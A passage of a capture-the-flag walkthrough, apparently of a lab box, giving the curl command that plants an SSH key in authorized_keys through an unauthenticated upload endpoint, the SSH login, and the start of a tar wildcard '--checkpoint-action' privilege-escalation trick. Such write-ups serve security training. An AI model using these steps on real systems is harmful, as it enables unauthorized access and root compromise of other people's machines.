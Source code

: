 ```shell
/info                 (Status: 200) [Size: 98]
```

We then come across two directories that we can look at.
<img width="600" alt="info" src="https://gist.github.com/assets/116626767/db8ba43c-a637-4446-9ed9-d9fdf5801323">


<img width="600" alt="help" src="https://gist.github.com/assets/116626767/7cda9a07-7be4-4929-bbd0-f2f5d662a6ad">


We can see more commands in here maybe see what else we can do with the server.

<img width="600" alt="file_ls" src="https://gist.github.com/assets/116626767/39503fe5-38e7-4a15-8cc2-c61966f80be5">


We can see that we can list things in the system. There is also a file-upload which could mean that we can upload a file, file like a id_rsa in there that allows us to ssh into the machine, we can create our own ssh and upload it. We can use this to learn how to upload files on the system, [curl_file_name](https://www.warp.dev/terminus/curl-file-upload)

`curl -F "file=@id_rsa.txt" -F "filename=/home/alfredo/.ssh/authorized_keys" -X POST http://192.168.241.249:33414/file-upload
`
We get a upload successful message, and then we can use ssh using id rsa to get into the machine with the ssh keys that we generated.
Now since port 22 was closed we can check what our other unknown ports had. Maybe we can get another thing on it. 
```shell
->amaterasu nc -v 192.168.241.249 25022           
192.168.241.249: inverse host lookup failed: Unknown host
(UNKNOWN) [192.168.241.249] 25022 (?) open
SSH-2.0-OpenSSH_8.6
```

Awesome we get one port that has a SSH connection, we can specify this port using -p 
```shell
->amaterasu ssh -i id_rsa alfredo@192.168.241.249 -p 25022
Last login: Tue May  7 06:37:25 2024 from 192.168.45.214
-bash-5.1$ 
```
## Privilege escalation
We can then try and escalate our privileges, by first checking if there are any cronjobs running in the system. Lucky enough we find one.

<img width="500" alt="crontab" src="https://gist.github.com/assets/116626767/780abb4e-3b0f-4f1a-a87a-6bfb4bbc1280">

<img width="600" alt="flask" src="https://gist.github.com/assets/116626767/9b18c094-e3a5-4b0d-93e1-ac20401ada30">

We can then check it out and we see that it may seem like a totally safe script but in truth the `*` command at the end makes it possible to leverage and create crafted filenames interprated as flags for tar.

Then under the tar man page we learn that we could execute commands via the '--checkpoint-action' flag
